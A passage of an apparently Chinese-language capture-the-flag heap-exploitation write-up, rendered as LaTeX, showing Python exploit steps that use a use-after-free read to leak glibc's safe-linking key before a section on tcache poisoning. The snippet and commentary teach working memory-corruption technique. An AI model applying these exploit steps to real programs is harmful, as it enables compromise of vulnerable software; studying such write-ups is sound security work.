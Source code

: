 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{open\_wallet(}\StringTok{b\textquotesingle{}P0\textquotesingle{}}\NormalTok{, }\BaseNTok{0x20}\NormalTok{)   }\CommentTok{\# slot 2}
\NormalTok{open\_wallet(}\StringTok{b\textquotesingle{}P1\textquotesingle{}}\NormalTok{, }\BaseNTok{0x20}\NormalTok{)   }\CommentTok{\# slot 3}
\NormalTok{open\_wallet(}\StringTok{b\textquotesingle{}P2\textquotesingle{}}\NormalTok{, }\BaseNTok{0x20}\NormalTok{)   }\CommentTok{\# slot 4}
\NormalTok{transfer(}\DecValTok{2}\NormalTok{, }\DecValTok{3}\NormalTok{)             }\CommentTok{\# free(P0 ledger, 0x30 chunk) → tcache[0x30] 原本是空的}
\NormalTok{l    }\OperatorTok{=}\NormalTok{ withdraw\_n(}\DecValTok{3}\NormalTok{, }\BaseNTok{0x20}\NormalTok{) }\CommentTok{\# ✶ UAF 讀}
\NormalTok{safe }\OperatorTok{=}\NormalTok{ u64(l[}\DecValTok{0}\NormalTok{:}\DecValTok{8}\NormalTok{])         }\CommentTok{\# = (user 位址 \textgreater{}\textgreater{} 12) \^{} NULL = user 位址 \textgreater{}\textgreater{} 12  ← safe{-}linking key}
                           \CommentTok{\#   ✶ 是 malloc() 回傳的 user 位址，不是 chunk 標頭（§5.4 實測）}
\end{Highlighting}
\end{Shaded}

\begin{quote}
這裡 \textbf{不需要知道 chunk 的完整位址}，因為編碼只用得到
\texttt{user\ \allowbreak{}位址\ \allowbreak{}\textgreater{}\allowbreak{}\textgreater{}\allowbreak{}\ \allowbreak{}12} （key ＝
\texttt{\&\allowbreak{}e-\allowbreak{}\textgreater{}\allowbreak{}next\ \allowbreak{}\textgreater{}\allowbreak{}\textgreater{}\allowbreak{}\ \allowbreak{}12}，而
\texttt{\&\allowbreak{}e-\allowbreak{}\textgreater{}\allowbreak{}next} 就是 user 位址 = 標頭 + 0x10）。 這也讓
exploit 不會因為 heap 佈局（例如 stdio buffer 大小）不同而失敗。
\end{quote}

\paragraph{8.3 Phase 2b：tcache
poisoning}\label{phase-2btcache-poisoning}
\end{document}
